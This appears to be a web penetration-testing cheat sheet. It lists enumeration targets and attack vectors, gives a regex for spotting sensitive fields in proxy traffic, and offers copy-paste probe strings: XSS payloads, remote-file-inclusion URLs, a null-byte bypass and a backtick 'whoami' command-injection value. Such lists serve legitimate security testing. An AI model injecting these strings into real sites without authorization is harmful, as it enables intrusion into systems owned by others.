 

### ENUMERATION:
-----------------------------------------------------------------------

- OPERATING SYSTEM 
- WEB SERVER
- DATABASE SERVERS
- PROGRAMMING LANGUAGES
- PLUGINS/VERSIONS
- OPEN PORTS
- USERNAMES
- SERVICES
- WEB SPIDERING
- GOOGLE HACKING


### VECTORS:
-----------------------------------------------------------------------

- INPUT FORMS
- GET/POST PARAMS
- URI/REST STRUCTURE
- COOKIES
- HEADERS



### SEARCH STRINGS:
-----------------------------------------------------------------------
Just some helpful regex terms to search for passively using Burpsuite or any other web proxy... 
```
fname|phone|id|org_name|name|email
```




### QUICK ATTACK STRINGS:
-----------------------------------------------------------------------
Not a complete list by any means, but when you're manually testing and walking through sites and need a quick copy/paste, this can come in handy... 
```
Company
First Last
username
username@mailinator.com
Password123$
+1416312384
google.com
https://google.com
//google.com
.google.com
https://google.com/.injectx/rfi_vuln.txt
https://google.com/.injectx/rfi_vuln.txt?`whoami`
https://google.com/.injectx/rfi_vuln.txt%00.png
https://google.com/.injectx/rfi_vuln.txt%00.html
12188
01/01/1979
4242424242424242
INJECTX
'>"></INJECTX>(1)
javascript:alert(1)//
"><img/onload=alert(1)>' -- 
"></textarea><img/onload=alert(1)>' -- 
INJECTX'>"><img/src="https://google.com/.injectx/xss_vuln.png"></img>
```